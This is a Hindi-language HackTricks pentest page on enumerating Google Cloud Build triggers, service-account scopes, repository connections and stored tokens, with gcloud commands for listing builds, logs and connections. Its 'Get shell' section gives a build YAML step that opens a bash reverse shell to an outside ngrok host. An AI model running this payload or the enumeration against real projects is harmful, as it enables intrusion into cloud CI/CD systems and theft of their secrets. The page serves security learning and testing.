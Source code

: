 # GCP - Cloud Build Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड रिपोजिटरीज** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट, और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपोजिटरी से जुड़ा होता है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### इवेंट्स

Cloud Build निम्नलिखित स्थितियों में ट्रिगर किया जा सकता है:

* **एक ब्रांच में पुश**: ब्रांच का विवरण दें
* **नया टैग पुश करें**: टैग का विवरण दें
* **पुल रिक्वेस्ट**: PR प्राप्त करने वाली ब्रांच का विवरण दें
* **मैन्युअल इनवोकेशन**
* **Pub/Sub संदेश:** विषय का विवरण दें
* **वेबहुक इवेंट**: एक HTTPS URL प्रदर्शित करेगा और अनुरोध को एक गुप्त के साथ प्रमाणित किया जाना चाहिए

### निष्पादन

तीन विकल्प हैं:

* yaml/json **जिसमें निष्पादित करने के लिए आदेश निर्दिष्ट होते हैं**। आमतौर पर: `/cloudbuild.yaml`
* केवल एक जिसे वेब कंसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे आम विकल्प
* अप्रमाणित पहुँच के लिए प्रासंगिक
* **Dockerfile** बिल्ड करने के लिए
* **Buildpack** बिल्ड करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` **का उपयोग किया जाएगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी जाती हैं लेकिन इसे कुछ अनुमतियाँ देना काफी आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### अनुमोदन

Cloud Build को बिल्ड निष्पादनों के लिए **अनुमोदन की आवश्यकता होने के लिए कॉन्फ़िग किया जा सकता है** (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन्स & रिपोजिटरीज

कनेक्शन्स निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जो **एक Github टोकन प्राप्त करने के लिए अनुमतियाँ मांगेगा** जिसे **Secret Manager के अंदर संग्रहीत किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक S**ecret Manager** गुप्त के रूप में संग्रहीत किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन प्रदान करना होगा** जिसे **Secret Manager में संग्रहीत किया जाएगा।**

एक बार कनेक्शन उत्पन्न हो जाने के बाद, आप इसे उन रिपोजिटरीज से **लिंक करने के लिए उपयोग कर सकते हैं जिन तक Github अकाउंट की पहुँच है**।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस विधि से जुड़ी रिपोजिटरीज **केवल 2nd जनरेशन का उपयोग करने वाले Triggers में उपलब्ध हैं।**
{% endhint %}

### एक रिपोजिटरी कनेक्ट करें

यह **`connection`** के रूप में समान नहीं है। यह **विभिन्न** तरीकों से एक Github या Bitbucket रिपोजिटरी तक **पहुँच प्राप्त करने की अनुमति देता है लेकिन कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह एक रिपोजिटरी ऑब्जेक्ट (1st जनरेशन) उत्पन्न करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### स्टोरेज

कभी-कभी Cloud Build ट्रिगर के लिए फाइलों को स्टोर करने के लिए **एक नया स्टोरेज उत्पन्न करेगा**। यह उदाहरण के लिए GCP के साथ होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक Storage bucket जिसका नाम [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) है, उसे `.tgz` फाइलों को स्टोर करने के लिए बनाया गया है जिनका उपयोग किया जाना है।

### Get shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचीकरण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
